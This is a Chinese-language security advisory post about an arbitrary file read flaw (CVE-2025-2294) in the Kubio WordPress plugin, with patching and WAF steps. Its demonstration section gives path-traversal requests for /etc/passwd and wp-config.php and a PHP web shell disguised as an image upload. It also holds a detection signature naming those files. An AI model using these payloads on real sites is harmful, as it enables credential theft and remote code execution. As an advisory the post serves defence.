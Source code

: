 #  WordPress未授权任意文件读取_CVE-2025-2294   
云梦DC  云梦安全   2025-04-27 01:10  
  
一、漏洞暗藏杀机  
  
攻击者只需发送特制URL：  
  
http://xxxx/?__kubio参数=../../../etc/passwd  
  
即可实现：  
  
🔴 服务器敏感文件裸奔（数据库配置/用户凭证）  
  
🔴 PHP代码植入（篡改支付页面/盗取用户数据）  
  
🔴 供应链投毒（针对使用该插件的开发公司）  
  
二、技术验证演示  
  
▍ 初级验证 - 文件泄露检测  
```
GET /wp-admin/admin-ajax.php?action=kubio_render_template 
&template=../../../../wp-config.php%00 HTTP/1.1
Host: target.com
触发效果： 服务器将返回网站数据库账号密码（需URL解码）
```  
  
▍ 高级攻击 - 内存马注入  
```
// 上传携带恶意代码的"图片"
POST /wp-admin/async-upload.php HTTP/1.1
Content-Type: image/jpeg
<?php 
header("X-Powered-By: kubio_rce");
system(base64_decode($_GET['cmd']));
```  
```
# 激活隐藏后门
GET /?__kubio参数=phar://./uploads/恶意图片.jpg/cmd=whoami
```  
  
三、五分钟应急方案  
  
1. 热补丁植入（临时防御）  
  
在wp-config.php顶部添加：  
```
define('KUBIO_TEMPLATE_WHITELIST', ['safe/path']); //强制锁定模板目录
```  
  
2. 云WAF紧急规则  
```
location ~* kubio {  
    if ($args ~* "\.\./") {  
        return 412;  # 阻断所有路径穿越请求
    }  
}
```  
  
3. 终极解决方案  
  
立即升级至官方2.5.2版本：  
```
cd /var/www/html/wp-content/plugins  
rm -rf kubio/ && wget 官方安全版下载链接
```  
  
威胁情报追踪：  
  
监测发现已有攻击者批量扫描/wp-content/plugins/kubio/路径的网站，特征流量包含：  
```
"__kubio-site-edit-iframe-classic-template" 
AND ("etc/passwd" OR "wp-config.php")
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpywWFGcowDD0H4TUjnA63KRqtic4Da41U08bsDF5LkrqiaoV4oebmb8JcNl4QgPQ3nA8X8noJZhUXYw/640?wx_fmt=png&from=appmsg "")  
  
  
